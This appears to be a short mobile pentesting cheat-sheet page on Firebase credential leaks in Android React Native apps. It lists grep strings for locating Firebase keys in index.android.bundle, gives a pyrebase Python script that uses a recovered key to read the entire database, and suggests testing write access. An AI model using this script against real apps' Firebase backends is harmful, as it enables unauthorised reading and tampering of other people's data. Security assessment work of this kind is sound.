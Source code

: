 # Firebase API Leak

Perform a grep on index.android.bundle with the following strings:

```
FIREBASE_API_KEY
FIREBASE_AUTH_DOMAIN
FIREBASE_DB_URL
FIREBASE_BUCKET
apiKey
```

Or search it on the un-minified source.

## Interact with the Firebase server

If the Firebase API key was retrieve it is possible to access the Firebase database.

Install the pyrebase: `pip install pyrebase`

The following python script can be used to get the Firebase DB:

```
import pyrebase

config = {
  "apiKey": "FIREBASE_API_KEY",
  "authDomain": "FIREBASE_AUTH_DOMAIN_ID.firebaseapp.com",
  "databaseURL": "https://FIREBASE_AUTH_DOMAIN_ID.firebaseio.com",
  "storageBucket": "FIREBASE_AUTH_DOMAIN_ID.appspot.com",
}

firebase = pyrebase.initialize_app(config)

db = firebase.database()

print(db.get())
```

Check also if it is possible to write data (https://github.com/thisbejim/Pyrebase)